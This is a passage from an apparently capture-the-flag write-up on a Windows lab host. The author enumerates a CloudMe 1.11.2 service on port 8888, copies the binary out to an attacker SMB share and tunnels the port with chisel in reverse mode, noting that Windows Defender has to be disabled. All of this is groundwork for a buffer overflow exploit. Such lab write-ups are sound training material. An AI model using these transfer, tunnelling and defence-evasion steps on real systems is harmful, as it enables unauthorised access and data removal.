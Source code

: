 ```bash
C:\Users\shaun>tree /a /f
tree /a /f
...<snip>...
+---Downloads
|       CloudMe_1112.exe
```

I also find a process listening on port 8888, by  using a oneliner I can identify that is indeed CloudMe running at different intervals of time.

```bash
C:\Users\shaun>netstat -noa
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       1284

C:\Users\shaun> for /f "tokens=5" %a in ('netstat -ano ^| findstr :8888') do wmic process where processid=%a get Caption,CommandLine

C:\Users\shaun>wmic process where processid=1540 get Caption,CommandLine 
Caption      CommandLine  
CloudMe.exe  
```

> There are various public buffer overflow exploits for cloudme 1.11.2 in the [exploit-db](https://www.exploit-db.com/) database, but for the case of this writeup I'll explain the process of how to create a basic buffer overflow exploit. 

First I'll copy the cloudme executable to my machine, I will do this through a smb share 

1. On my linux machine
```bash
$ impacket-smbserver smbFolder `pwd` -smb2support
```

2. On the target windows machine
```bash
C:\Users\shaun\Downloads>copy CloudMe_1112.exe \\10.10.14.13\smbFolder\
```

Then I import and install the executable and create a direct link to my desktop in a windows 10 virtual machine where I will use [xdbg](https://x64dbg.com/) specifically the 32 bit version x32dbg and with its respective plugin [ERC](https://github.com/Andy53/ERC.Xdbg) to debug the binary.

I also import chisel on the windows_debug machine to expose the port 8888, note that is necessary to disable windows defender in real time to make use of chisel.

1. to expose the internal port first I create a chisel server on my linux machine
```bash
$ ./chisel_1.7.3_linux_amd64 server --reverse --port 1234
```

2. on the windows_debug machine I connect the chisel client to my server

```bash
C:\Users\user\Desktop>chisel_1.7.3_windows_amd64 client 192.168.56.1:1234 R:8888:127.0.0.1:8888
```

To import the file to xdbg I'll do  the following
1. go to File > Open > CloudMe.exe
